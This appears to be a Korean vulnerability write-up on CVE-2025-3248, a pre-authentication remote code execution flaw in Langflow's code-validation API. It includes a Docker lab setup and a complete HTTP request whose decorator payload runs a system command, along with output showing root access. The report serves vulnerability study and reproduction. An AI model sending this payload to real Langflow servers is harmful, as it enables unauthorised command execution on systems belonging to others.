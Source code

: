# CVE-2025-3248 Langflow `validate/code` API 인증 우회 원격 코드 실행 취약점 분석 보고서

## 개요

본 보고서는 Langflow 1.2.0 버전 이하에서 발생하는 인증 우회 원격 코드 실행(Remote Code Execution, RCE) 취약점(CVE-2025-3248)에 대해 분석하고, Docker 환경에서 재현(PoC)한 결과를 문서화한 것입니다.

취약점은 `/api/v1/validate/code` 엔드포인트에서 사용자로부터 전달된 Python 코드를 `exec()` 함수를 통해 실행할 때 발생합니다. 함수 정의 시 실행되는 decorator 또는 default argument 표현식을 악용해 인증 없이 임의의 명령어를 실행할 수 있습니다.

---

## 취약점 정보

| 항목 | 내용 |
|------|------|
| CVE 번호 | CVE-2025-3248 |
| 영향받는 제품 | Langflow < 1.3.0 |
| 취약점 유형 | 인증 우회 원격 코드 실행 (Pre-auth RCE) |
| 취약점 위치 | `/api/v1/validate/code` |
| 심각도 | ★ Critical |
| 공식 패치 | [v1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0) |

---

## 실습 환경 구성

```bash
git clone https://github.com/내아이디/vulhub.git
cd vulhub/langflow/CVE-2025-3248
docker compose up -d

접속 주소: http://localhost:7860

기본 계정: administrator / vulhub

Burp Suite 요청

POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
Content-Type: application/json

{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}

```

## 실습 환경 구성

```bash
{
  "function": {
    "errors": [
      "b'uid=0(root) gid=0(root) groups=0(root)\\n'"
    ]
  }
}
